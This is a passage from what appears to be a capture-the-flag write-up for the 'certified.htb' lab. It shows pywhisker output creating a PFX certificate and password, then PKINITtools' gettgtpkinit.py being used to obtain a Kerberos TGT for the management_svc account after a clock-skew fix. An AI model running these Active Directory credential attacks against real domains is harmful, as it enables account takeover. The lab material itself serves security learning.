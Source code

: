 ```
[i] Passwort für PFX: VLVMMXcUZpo6JQ3sSY3C
[+] Saved PFX (#PKCS12) certificate & key at path: GNJ5gqL7.pfx
[*] Must be used with password: VLVMMXcUZpo6JQ3sSY3C
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

We can now obtain the TGT with the tool specified at the end of pywhisker, let's install it and use it:

```
python3 gettgtpkinit.py certified.htb/management_svc -cert-pfx /home/kali/pywhisker/pywhisker/GNJ5gqL7.pfx -pfx-pass VLVMMXcUZpo6JQ3sSY3C cache.ccache

2025-03-12 13:18:45,538 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-12 13:18:45,567 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
Traceback (most recent call last):
  File "/home/kali/PKINITtools/gettgtpkinit.py", line 349, in <module>
    main()
    ~~~~^^
  File "/home/kali/PKINITtools/gettgtpkinit.py", line 345, in main
    amain(args)
    ~~~~~^^^^^^
  File "/home/kali/PKINITtools/gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
  File "/home/kali/pywhisker/myenv/lib/python3.13/site-packages/minikerberos/network/clientsocket.py", line 85, in sendrecv
    raise KerberosError(krb_message)
minikerberos.protocol.errors.KerberosError:  Error Name: KRB_AP_ERR_SKEW Detail: "The clock skew is too great"
```

Got an error, this occurs due to the clock time of our machine being out of sync with the domain controller, let's fix it:

```
sudo timedatectl set-ntp off
# We need to install ntpdate to do this, in kali: sudo apt install ntpdate
sudo ntpdate -u dc01.certified.htb
```

Now, let's try again:

```
python3 gettgtpkinit.py certified.htb/management_svc -cert-pfx /home/kali/pywhisker/pywhisker/GNJ5gqL7.pfx -pfx-pass VLVMMXcUZpo6JQ3sSY3C cache.ccache
2025-03-12 20:28:18,490 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-12 20:28:18,515 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-12 20:28:40,123 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-12 20:28:40,123 minikerberos INFO     e0da658aa6af3696f137ffd2c81f0daf1c585c4c692f7418affa0e9fde5e381f
INFO:minikerberos:e0da658aa6af3696f137ffd2c81f0daf1c585c4c692f7418affa0e9fde5e381f
2025-03-12 20:28:40,125 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```
